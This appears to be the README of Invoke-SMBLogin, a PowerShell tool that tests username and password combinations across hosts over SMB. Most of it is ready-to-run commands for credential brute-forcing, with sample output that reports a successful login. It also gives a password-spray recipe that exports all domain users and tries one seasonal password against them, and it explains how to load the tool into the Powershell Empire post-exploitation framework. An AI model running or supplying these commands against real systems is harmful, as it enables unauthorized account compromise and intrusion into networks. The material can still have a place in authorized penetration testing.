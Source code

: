 # Invoke-SMBLogin #
Validates username &amp; password combination(s) across a host or group of hosts using the SMB protocol.

## Examples ##

Depending on the type of parameter ( a single item, comma separated items or a text file ) the script will run through all the iterations.
	
```
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password Passw0rd1
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
PS C:\> Invoke-SMBLogin -ComputerName "host01,host02,host03" -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
```

```  
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName hosts.txt -UserName Administrator -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password passwords.txt
```
```
PS C:\> Invoke-SMBLogin -ComputerName hosts.txt -UserName Administrator -Password "Passw0rd1,Passw0rd2"

ComputerName Username              Password  Result
------------ --------              --------  ------
192.168.1.1  builtin\Administrator Passw0rd1 Failed
192.168.1.1  builtin\Administrator Passw0rd2 Failed
192.168.1.2  builtin\Administrator Passw0rd1 Failed
192.168.1.2  builtin\Administrator Passw0rd2 Success
```  
This will perform a password spray attack across all domain users using Winter2019 against a host in the domain. It could be a DC or any other member server/workstation as long as it has SMB open.
```
PS C:\> Get-ADUser -Filter * | Select-Object SamAccountName > users.txt
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName AnyDomainHost -UserName users.txt -Password Winter2019
```  

## Using Invoke-SMBLogin with Powershell Empire ##

To use Invoke-SMBLogin from a Powershell Empire agent, have have to copy the Powershell script and the Empire module python script to the Empire folder:

- Invoke-SMBLogin.ps1 to **data/module_source/situational_awareness/network/**
- smblogin.py to **lib/modules/powershell/situational_awareness/network/**
